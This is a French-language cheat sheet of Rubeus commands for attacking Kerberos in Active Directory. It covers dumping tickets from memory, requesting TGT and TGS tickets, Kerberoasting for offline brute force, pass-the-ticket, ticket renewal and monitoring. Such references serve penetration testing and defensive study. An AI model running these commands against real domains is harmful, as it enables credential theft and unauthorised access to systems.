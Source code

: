 https://github.com/GhostPack/Rubeus

#### 🎟️ Dump des tickets Kerberos

```bash
Rubeus.exe dump
```

Affiche tous les **tickets Kerberos** stockés en mémoire.

#### 🆕 Demander un Ticket Granting Ticket (TGT)

```bash
Rubeus.exe asktgt /user: /password: /domain:
```

Génère un **TGT** en fournissant les **identifiants utilisateur**.

#### 🎟️ Demander un Ticket Granting Service (TGS)

```bash
Rubeus.exe asktgs /ticket: /service:
```

Permet d’obtenir un **TGS** pour accéder à un service spécifique.

> [!Astuce]
> 🔹 **Paramètres** :
> 
> - `/ticket:` → **TGT en Base64**
> - `/service:` → **Nom du service cible** (ex: `cifs/machine.domain.local`)

#### 🔥 Kerberoasting (Dump des TGS exploitables)

```bash
Rubeus.exe kerberoast
```

Extrait les **TGS** des services AD pour effectuer une **attaque de bruteforce offline**.

#### 🎭 Pass-The-Ticket (PTT)

```bash
Rubeus.exe ptt /ticket:
```

Charge un **ticket Kerberos (TGT ou TGS)** en mémoire pour l’utiliser sans authentification.

> [!Astuce]
> 🔹 **Paramètre** :
> 
> - `/ticket:` → **TGT en Base64**

#### ♻️ Renouveler un TGT

```bash
Rubeus.exe renew /ticket:
```

Permet de **renouveler** un **TGT** avant qu’il n’expire.

> [!Astuce]
> 🔹 **Paramètre** :
> 
> - `/ticket:` → **TGT en Base64**

#### 🔍 Surveiller les changements de tickets Kerberos

```bash
Rubeus.exe monitor
```

Affiche en temps réel les **modifications des tickets Kerberos** sur la machine actuelle.
